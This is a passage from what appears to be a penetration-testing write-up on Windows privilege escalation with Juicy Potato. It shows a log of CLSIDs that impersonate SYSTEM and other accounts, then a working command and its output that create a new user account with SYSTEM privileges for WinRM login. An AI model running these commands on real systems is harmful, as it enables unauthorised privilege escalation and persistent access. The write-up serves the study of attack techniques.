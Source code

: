 This script will test all the retrieved CLSIDs and at the end will retrieve only those which were successfully executed Impersonating another user:

```powershell
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};NT AUTHORITY\IUSR
{0fb40f0d-1021-4022-8da0-aab0588dfc8b};NT AUTHORITY\LOCAL SERVICE
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{204810b9-73b2-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{2e5e84e9-4049-4244-b728-2d24227157c7};NT AUTHORITY\LOCAL SERVICE
{42CBFAA7-A4A7-47BB-B422-BD10E9D02700};NT AUTHORITY\SYSTEM
{4661626C-9F41-40A9-B3F5-5580E80CB347};NT AUTHORITY\SYSTEM
{4B6C85F1-A6D9-433A-9789-89EA153626ED};NT AUTHORITY\SYSTEM
{6d8ff8d2-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dc-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dd-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8df-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e1-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e5-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e7-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
{9678f47f-2435-475c-b24a-4606f8161c16};NT AUTHORITY\IUSR
{97061DF1-33AA-4B30-9A92-647546D943F3};NT AUTHORITY\SYSTEM
{98068995-54d2-4136-9bc9-6dbcb0a4683f};NT AUTHORITY\IUSR
{9acf41ed-d457-4cc1-941b-ab02c26e4686};NT AUTHORITY\IUSR
{A47979D2-C419-11D9-A5B4-001185AD2B89};NT AUTHORITY\LOCAL SERVICE
{B31118B2-1F49-48E5-B6F5-BC21CAEC56FB};NT AUTHORITY\SYSTEM
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM
```

Then we can use any of this CLSIDs with our Juicy Potato binary in order to execute commands as another user, in this case NT AUTHORITY\\SYSTEM.

### Creating a User

For this particular scenario we will create a user with SYSTEM privileges. As we have the WINRM port open we can abuse of winrm service to login as such user.

The following are all the steps in order to create such user:
1.- Creation of the user:
```bash
juicypotato.exe -l 1337 -c "{CBC04AF1-25C7-4A4D-BB78-28284403510F}" -p c:\windows\system32\cmd.exe -a "net user shuciran2 shuciran123 /add" -t *
Testing {CBC04AF1-25C7-4A4D-BB78-28284403510F} 1337
......
[+] authresult 0
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

> If the user is not created with the previous command then this can be because the CLSID is not working as expected, we might execute the command with another CLSID.
{: .prompt-warning }
